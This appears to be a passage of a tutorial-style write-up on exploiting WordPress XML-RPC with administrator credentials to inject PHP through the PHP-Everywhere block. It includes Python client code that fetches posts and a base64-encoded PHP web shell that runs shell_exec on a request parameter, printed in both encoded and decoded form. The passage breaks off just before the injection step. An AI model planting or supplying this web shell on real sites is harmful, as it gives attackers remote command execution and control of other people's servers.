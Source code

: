## Manipulating the Post System

In the following exploration, we will manipulate the posting system. By using the XML-RPC interface, attackers can alter, create, or delete blog posts without proper authorization. This manipulation not only allows the insertion of malicious content, but also the potential to control the narrative or interrupt services, or even worse, have complete control of the system as you will see below.

# Exploitation:
If you have administrator access on a WordPress site, even with a two-factor authentication (2FA) plugin, it is possible to exploit XML-RPC to execute arbitrary commands, including obtaining shell privileges. Using the Python WordPress XML-RPC library, as documented at [https://python-wordpress-xmlrpc.readthedocs.io/en/latest/overview.html](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/overview.html), you can manipulate posts and potentially insert malicious PHP code.

### Arbitrary Commands:
When the system is susceptible to code injection, we can manipulate the post's content using Python as shown below:

```python
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods import posts

# Connecting to the XML-RPC server
client = Client("http://host_ip_address/xmlrpc.php", 'admin', 'password')

# Fetching posts
post = client.call(posts.GetPosts())
post[0]
'<WordPressPost: b"Post Title">'
post[0].content
```

Result:
```python
'<!-- wp:paragraph -->\n<p>Post content</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAgcGhwaW5mbygpOyA/Pg==,"version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
```

The original post content include a base64 encoded PHP info script (`<?php phpinfo(); ?>`).  
This base64 string (`"PD9waHAgcGhwaW5mbygpOyA/Pg=="`) could be replaced with a malicious command like: `PD9waHAKCWVjaG8gIjxwcmU+IiAuIHNoZWxsX2V4ZWMoJF9SRVFVRVNUWydjbWQnXSkgLiAiPC9wcmU+IjsKPz4K`

Which decodes to:

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Suppose the system allows code injection. We could inject malicious PHP code through the post content:

